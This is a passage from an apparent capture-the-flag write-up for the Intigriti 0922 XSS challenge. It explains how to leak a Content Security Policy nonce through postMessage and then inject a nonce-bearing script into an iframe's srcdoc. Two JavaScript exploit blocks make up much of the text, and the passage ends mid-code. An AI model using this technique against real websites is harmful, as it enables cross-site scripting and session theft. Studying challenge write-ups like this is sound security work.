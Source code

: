 We will do this again and again and build up the nonce character by character.
It's tricky to detect the when we got the full nonce because it has not a fixed
length. It can be from 29 up to 32 characters long. We will have to make use
of some timeout counter and simply define that if we don't get a message in the
`top` from the blob in 2 seconds it means we already have the full nonce.

And when that happens we can finally do what failed before. Create a new blob,
one last time, that sends the 'set' message which changes the 'srcdoc' of the iframe.
But this time we got the nonce to make the Content Security Policy happy.

```
<iframe onload=stage1() src="https://challenge-0922.intigriti.io/challenge/"></iframe>
<script>
  onmessage = e => {
    // here detecting the progress of the nonce
    if(nonce fully extracted){
      stage2(nonce)
    }
  }
  stage1 = e => {
    // here the nonce exfiltration stuff
  }

  stage2 = nonce => {
    burl = URL.createObjectURL(new Blob([`
      <script>
        parent.postMessage({
          element: '#ball',
          action: 'set',
          attr: 'srcdoc',
          // we have to use parent.alert because iframe 
          // has sandbox value set and does not allow modals
          // alternatively we could make use of `removeAttribute` to delete it
          value: '<script nonce=${nonce}>parent.alert(document.domain)</'+'script>'
        }, '*') 
      <\/script>
    `], {type : 'text/html'}))
    frames[0][0].location = burl 
  }
</script>
```
And here is the final exploit with all the glue code added to make it actually work.
https://editor.43z.one/j91ak/i check the console to see progress
```
<iframe onload="stage1('')" src="https://challenge-0922.intigriti.io/challenge/"></iframe>

<script>
  const sleepTime = 100
  finished = null
  listener = e => {
    if(!e.data.length) return

    clearTimeout(finished)
    nonce=e.data

    finished = setTimeout(_=>{
      console.log('probabbly finished with', nonce)
      stage2(nonce)
      removeEventListener('message', listener)
    }, sleepTime*17)

    stage1(nonce)

  }
  addEventListener('message', listener)
```
